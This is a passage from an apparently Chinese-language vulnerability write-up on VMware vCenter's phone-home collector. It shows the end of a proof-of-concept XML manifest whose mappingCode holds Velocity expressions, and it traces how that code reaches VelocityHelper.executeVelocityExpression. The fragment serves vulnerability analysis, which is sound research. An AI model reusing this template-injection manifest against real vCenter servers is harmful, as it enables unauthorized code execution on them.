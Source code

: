 ```bash
                        #set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
                        $obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
                        $obj.addProperty("BUILD", $content-about-build)##
                        $obj.addProperty("VERSION", $content-about-version)##]]>
                     </mappingCode>
                     </resourceItemToJsonLdMapping>
                  </value>
               </value>
            </entry>
         </resultSetMappings>
      </indepedentResultsMapping>
   </cdfMapping>
   <requestSchedules>
      <schedule interval="1h">
         <queries>
            <query>vir:VCenter</query>
         </queries>
      </schedule>
   </requestSchedules>
</manifest>
```

com.vmware.ph.phservice.collector.internal.cdf.mapping.ResourceItemToJsonLdMapping#map  
跟中到如下位置，解析 manifest 获取 mappingCode，调用 VelocityHelper.executeVelocityExpression 执行 velocity 表达式  
[![](assets/1704161823-17e368bec4317cd2bdb9ce72d17e65b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122418-92a27d26-491c-1.png)  
堆栈太长，完整的如下
